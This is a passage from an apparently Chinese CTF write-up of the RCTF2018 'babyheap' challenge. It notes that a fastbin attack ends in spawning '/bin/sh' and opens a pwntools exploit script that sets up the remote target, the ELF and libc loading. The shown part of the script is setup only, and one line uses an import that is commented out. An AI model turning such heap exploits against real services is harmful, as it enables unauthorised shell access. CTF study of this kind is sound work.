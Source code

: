 ![fastbin attack](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/picture/fastbinattack.PNG)  
然后再次申请一个chunk，即可调用"/bin/sh"。
## 3.expolit代码 ##
    from pwn import *
    from ctypes import *
    import os
    #import roputils as rop
    
    remote_addr = "babyheap.2018.teamrois.cn"
    remote_port = 3154
    local_addr = "127.0.0.1"
    local_port = 1807
    
    pc = "./babyheap"
    pwn_elf = ELF(pc)
    pwn_rop = rop.ROP(pc)
    
    uselibc = 2 #0 for no,1 for i386,2 for x64
    local = 1
    haslibc = 1
    atta = 1
    
    if uselibc == 2:
    	context.arch = "amd64"
    else:
    	context.arch = "i386"
    
    if uselibc ==2 and haslibc == 0:
    	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    else:
    	if uselibc == 1 and haslibc == 0:
    		libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
    	else:
    		libc = ELF('./libc.so.6')
    